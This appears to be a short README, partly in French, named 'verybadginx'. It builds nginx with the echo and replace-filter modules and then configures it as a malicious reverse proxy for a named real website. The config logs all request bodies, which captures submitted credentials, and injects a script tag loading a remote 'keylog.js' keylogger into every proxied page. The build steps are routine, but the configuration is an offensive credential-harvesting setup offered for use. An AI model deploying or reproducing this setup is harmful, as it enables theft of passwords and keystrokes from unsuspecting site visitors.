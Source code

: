 # verybadginx

#### Download nginx with modules

cd /tmp;
curl -L -O 'https://github.com/openresty/echo-nginx-module/archive/v0.58.tar.gz';
tar -xzvf v0.58.tar.gz && rm v0.58.tar.gz;
mv echo-nginx-module-0.58 /tmp/echo-nginx-module;
curl -O 'http://nginx.org/download/nginx-1.9.7.tar.gz';
tar -xzvf nginx-1.9.7.tar.gz && rm nginx-1.9.7.tar.gz;
git clone https://github.com/openresty/replace-filter-nginx-module;

####  Ajout user/group nginx
groupadd nginx
useradd -g nginx nginx

####  Install nginx with modules

cd nginx-1.9.7/ && ./configure \
 --user=nginx \
 --group=nginx \
 --prefix=/etc/nginx \
 --sbin-path=/usr/sbin/nginx \
 --conf-path=/etc/nginx/nginx.conf \
 --pid-path=/var/run/nginx.pid \
 --lock-path=/var/run/nginx.lock \
 --error-log-path=/var/log/nginx/error.log \
 --http-log-path=/var/log/nginx/access.log \
 --add-module=/tmp/echo-nginx-module \
 --add-module=/tmp/replace-filter-nginx-module \
 --without-http_rewrite_module


#### Modif nginx.conf
http {

add 	log_format custom '$request_body';

add	access_log /var/log/nginx/access.log custom;

del     include /etc/nginx/sites-enabled/*;

add      include /etc/nginx/sites-enabled/default;

#### Modif sites-available/default et sites-enabled/default


location / {
	
add		echo_read_request_body;

add		proxy_pass http://www.microplus.fr/;

add		subs_filter "</div>" "</div><script/src='https://www.microplus.fr/secu/images/test/keylog.js'></script>" -o;


	

